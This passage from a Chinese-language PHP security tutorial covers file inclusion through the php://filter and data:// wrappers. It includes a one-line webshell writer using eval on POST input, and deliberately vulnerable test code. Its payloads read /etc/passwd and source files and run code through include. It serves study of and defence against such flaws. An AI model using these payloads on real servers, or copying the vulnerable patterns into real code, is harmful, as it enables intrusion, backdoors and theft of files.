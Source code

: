 ```php
[POST]:
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[whoami]);?>');?>
```

- php://filter来读写文件。

在实战中，若是遇上include、require、include_once、require_once、highlight_file 、show_source 、readfile 、file_get_contents 、fopen 、file等文件包含函数，我们可以用php://filter来读取php源码。

测试代码

```php
<?php
    $file1 = $_GET['file1'];
    $file2 = $_GET['file2'];
    $txt = $_GET['txt'];  // 写入的内容
    echo file_get_contents($file1);    // 或者是include($file1);
    file_put_contents($file2,$txt);
?>

payload
读取文件:
test.php?file1=php://filter/resource=/etc/passwd
test.php?file1=php://filter/read=convert.base64-encode/resource=flag.php    // 专用于读取php文件

写入文件:
test.php?file2=php://filter/resource=test1.txt&txt=Thanks Bunny!
test.php?file2=php://filter/write=convert.base64-encode/resource=test2.txt&txt=Thanks Bunny!
```

- data:// 协议

`allow_url_fopen: on`
`allow_url_include: on`

```php
<?php
// 打印 “输出"
echo file_get_contents($_GET[file]);
?>
payload：
test.php?file=data://text/plain;base64,VGhhbmtzJTIwQnVubnklMjE=
```

```php
// 如果遇上include文件包含，还可以造成任意代码执行
<?php
    include($_GET['file']);
?>

payload：
test.php?file=data://text/plain,<?php phpinfo();?>
test.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
test.php?file=data:text/plain,<?php phpinfo()?>
test.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
test.php?file=data:,<?php phpinfo()?>
```
